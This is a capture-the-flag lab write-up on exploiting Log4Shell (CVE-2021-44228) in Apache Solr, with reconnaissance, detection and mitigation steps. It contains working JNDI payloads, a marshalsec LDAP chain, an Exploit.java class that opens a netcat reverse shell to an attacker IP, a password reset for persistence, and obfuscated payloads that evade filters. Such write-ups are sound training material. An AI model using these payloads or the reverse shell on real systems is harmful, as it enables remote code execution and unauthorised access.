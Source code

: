 # Solar, exploiting log4j - Medium

1. [Introduction](#introduction)
2. [Reconnaissance](#reconnaissance)
3. [Discovery](#discovery)
4. [Proof of Concept](#proof-of-concept)
5. [Exploitation](#exploitation)
6. [Persistence](#persistence)
7. [Detection](#detection)
8. [Bypasses](#bypasses)
9. [Mitigation](#mitigation)

## Introduction

* CVE-2021-44228 (Log4Shell) affects the Java logging package ```log4j```; this vulnerability offers RCE.

## Reconnaissance

```shell
nmap -v -p- 10.10.124.206

nmap -A -p 8983 10.10.124.206
```

```markdown
1. What service is running on port 8983? - Apache Solr
```

## Discovery

* We can inspect the webpage on port 8983; it is the web interface for Apache Solr 8.11.0, running Java 1.8.0_181

* From the given task files, solr.log contains repeated INFO entries.

```markdown
1. What is the -Dsolr.log.dir argument set to, displayed on the front page? - /var/solr/logs

2. Which file includes contains this repeated entry? - solr.log

3. What "path" or URL endpoint is indicated in these repeated entries? - /admin/cores

4. Viewing these log entries, what field name indicates some data entrypoint that you as a user could control? - params
```

## Proof of Concept

* We can access the page /solr/admin/cores (port 8983)

* log4j package parses the entries and can also act/evaluate code; this is exploited by CVE-2021-44228

* General payload to abuse log4j vulnerability:

    ```${jndi:ldap://ATTACKERIP}```

* We can enter this payload anywhere that has data logged by the app; we can supply 'params' to /solr/admin/cores

```shell
nc -nvlp 9999
#setup listener

curl 'http://10.10.124.206:8983/solr/admin/cores?foo=$\{jndi:ldap://10.10.154.43:9999\}'
#we receive connection at listener, but not reverse shell
```

## Exploitation

* Attack chain:

  * Payload helps in reaching out to attacker's LDAP referral server
  * LDAP referral server forwards request to a secondary attacker resource
  * The victim retrieves & executes code present in attacker resource

```shell
#we already have java8 setup
#we have marshalsec utility installed for ldap
#in Attackbox

cd /root/Rooms/solar/marshalsec

#we have maven installed
#build marshalsec utility
mvn clean package -DskipTests

java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.10.154.43:8000/#Exploit"
#start LDAP server

#in new tab
vim Exploit.java
#add given payload code

javac Exploit.java -source 8 -target 8

ls
#we have Exploit.class

python3 -m http.server

#setup listener in another tab
nc -nvlp 9999

curl 'http://10.10.124.206:8983/solr/admin/cores?foo=$\{jndi:ldap://10.10.154.43:1389/Exploit\}'
#trigger exploit using JNDI syntax
#we get reverse shell at listener
```

```java
public class Exploit {    
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.10.154.43 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

```markdown
1. What is the output of running this command? - Listening on 0.0.0.0:1389
```

## Persistence

```shell
whoami

python3 -c "import pty; pty.spawn('/bin/bash')"

sudo -l
#we can run all commands as all users

sudo bash

passwd solr
#new creds for solr
#grants persistence

#ssh in new tab
ssh solr@10.10.124.206
```

```markdown
1. What user are you? - solr
```

## Detection

* Resources to find apps vulnerable to 'Log4Shell':

  * [Log4Shell Hashes](https://github.com/mubix/CVE-2021-44228-Log4Shell-Hashes)
  * [log4j class files hashes](https://gist.github.com/olliencc/8be866ae94b6bee107e3755fd1e9bf0d)
  * [Vulnerable jar and class hashes](https://github.com/nccgroup/Cyber-Defence/tree/master/Intelligence/CVE-2021-44228)

## Bypasses

* Bypasses that can be used instead of JNDI payloads:

  * ```${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}```
  * ```${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}```
  * ```${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}```
  * ```${${::-j}ndi:rmi://attackerendpoint.com/}```

## Mitigation

```shell
#manually modify solr.in.sh
#to mitigate log4shell
locate solr.in.sh

sudo vim /etc/default/solr.in.sh
#add the following line at end of file
#SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"

sudo /etc/init.d/solr restart

#we can attempt to re-exploit apache solr
#the instance has been mitigated against log4shell this time
```

```markdown
1. What is the full path of the specific solr.in.sh file? - /etc/default/solr.in.sh
```
